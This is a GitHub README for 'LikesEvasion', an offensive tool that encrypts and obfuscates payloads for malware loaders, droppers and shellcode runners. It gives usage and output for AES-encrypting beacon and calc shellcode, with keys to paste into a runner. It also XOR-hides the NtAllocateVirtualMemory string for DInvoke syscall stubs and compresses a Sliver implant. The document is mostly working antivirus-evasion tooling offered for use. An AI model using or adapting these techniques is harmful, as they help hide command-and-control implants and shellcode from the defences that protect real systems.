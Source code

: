 # LikesEvasion

Various obfuscation and decryption functionality for loaders, droppers, runners.

## Usage

```
LikesEvasion 1.0.0.2
Copyright c  2022

  -i, --input     Required. Input file to be processed (e.g. beacon.bin)

  -m, --mode      Required. Encryption/encoding mode (aesCs,caesarCs,caesarVba,xorCs,xorCsString,gzip,ungzip)

  -o, --output    Output filename

  --help          Display this help screen.

  --version       Display version information.
```

## Examples

### C# AES Bin Payload

The following example encrypts the bin file using AES and stores the output in a text file. The text file can be added as a resource to a runner. Remove the `-r` flag to output the encrypted blob to the console for copy and paste. 

```
PS> .\LikesEvasion.exe -m aescs -i .\calc.bin -o .\calc.bin.aes
[>] Initializing...
[>] Mode: aescs
[>] Input mode: bin
[>] Reading bytes from: .\calc.bin
[>] Bytes read: 276
[>] Storing buffer in .\calc.bin.aes
[>] Writing output file
[>] Copy & paste into shellcode runner
-----
byte[] buf = loadResource(...);

byte[] iv = new byte[16] {0x30, 0xb1, 0xfb, 0x8a, 0xf8, 0xf5, 0x22, 0x41, 0x6a, 0xf1, 0xeb, 0xda, 0x29, 0xd7, 0x98, 0xb5};
byte[] key = new byte[32] {0x7b, 0xf7, 0xb3, 0x83, 0xb0, 0x07, 0x56, 0x44, 0xac, 0xfa, 0x56, 0x0a, 0x83, 0xd2, 0xfe, 0x88, 0x86, 0x95, 0x28, 0x4a, 0x27, 0xea, 0x07, 0xf3, 0x6b, 0x07, 0x1f, 0xda, 0xa6, 0x6b, 0x98, 0x46};
-----
[>] Thanks to @xct_de
```

An example decryption routine can be found in the [DecryptAesCsharpBytes.cs](./LikesEvasion/Templates/DecryptAesCsharpBytes.cs) template. Copy the `iv` and `key` strings into the runner and decrypt:

```
static void Main(string[] args)
{
    [...]
    byte[] iv = new byte[16] { 0x30, 0xb1, 0xfb, 0x8a, 0xf8, 0xf5, 0x22, 0x41, 0x6a, 0xf1, 0xeb, 0xda, 0x29, 0xd7, 0x98, 0xb5 };
    byte[] key = new byte[32] { 0xe6, 0xd6, 0x69, 0x4e, 0x5b, 0x01, 0xd2, 0xb0, 0xf8, 0x43, 0xe0, 0x3f, 0xd9, 0xc8, 0x6f, 0x9c, 0x2a, 0x04, 0x50, 0x42, 0x65, 0x3b, 0xdb, 0xcb, 0x12, 0x92, 0xd8, 0xa6, 0x0a, 0x0d, 0x2d, 0x44 };

    byte[] buf = Decrypt(encrypted, key, iv);
    [...]
}
```

### C# XOR String

Perform string obfuscation:

```
PS> .\LikesEvasion.exe -m xorCsString -i NtAllocateVirtualMemory
[>] Initializing...
[>] Mode: xorCsString
[>] Input mode: string
[>] Encrypting string: NtAllocateVirtualMemory
[>] encrypting 1 entries
[>] key: 0x45, 0x59, 0x54, 0x38, 0x4a, 0x64, 0x71, 0x57, 0x57, 0x70, 0x4a, 0x70, 0x49, 0x47, 0x43, 0x52, 0x31, 0x34, 0x33, 0x46, 0x77, 0x6a, 0x45, 0x41, 0x63, 0x58, 0x47, 0x4c
[>] exec stub:

//  NtAllocateVirtualMemory
LikesEvasion.Evade.Deflate(LikesEvasion.Evade.FromHex("0b2d1554260b123623151c193b3336335d79562b18183c"),LikesEvasion.Evade.FromHex("455954384a64715757704a704947435231343346776a45416358474c"));
```

Next, add the decryption routine to a program. An example decryption routine can be found in the [DecryptXorCsharpString.cs](./LikesEvasion/Templates/DecryptXorCsharpString.cs) template. Example decryption:

```
static void Main(string[] args)
{
    Console.WriteLine(LikesEvasion.Evade.Deflate(LikesEvasion.Evade.FromHex("0b2d1554260b123623151c193b3336335d79562b18183c"), LikesEvasion.Evade.FromHex("455954384a64715757704a704947435231343346776a45416358474c")));
    
}
```

PoC output:

```
PS> .\PocXorStub.exe
NtAllocateVirtualMemory
```

Usage with DInvoke example:

```
static void Main(string[] args)
{
    [...]
    IntPtr syscall = DInvoke.DynamicInvoke.Generic.GetSyscallStub(LikesEvasion.Evade.Deflate(LikesEvasion.Evade.FromHex("0b2d1554260b123623151c193b3336335d79562b18183c"), LikesEvasion.Evade.FromHex("455954384a64715757704a704947435231343346776a45416358474c")));
    DInvoke.DynamicInvoke.Native.DELEGATES.NtAllocateVirtualMemory syscallAllocateVirtualMemory = (DInvoke.DynamicInvoke.Native.DELEGATES.NtAllocateVirtualMemory)Marshal.GetDelegateForFunctionPointer(syscall, typeof(DInvoke.DynamicInvoke.Native.DELEGATES.NtAllocateVirtualMemory));
    [...]
}
```

### Gzip bin

Use the `gzip` mode to compress a bin. In the following example, the 11 MB sliver bin is reduced to 4 MB. 

```
PS> .\LikesEvasion.exe -m gzip -i .\SLIVER.bin -o .\SLIVER.bin.gzip
[>] Initializing...
[>] Mode: gzip
[>] Input mode: bin
[>] Reading bytes from: .\SLIVER.bin
[>] Bytes read: 10878164
[>] Storing buffer in .\SLIVER.bin.gzip
[>] Compressing buffer
[>] Writing output file
```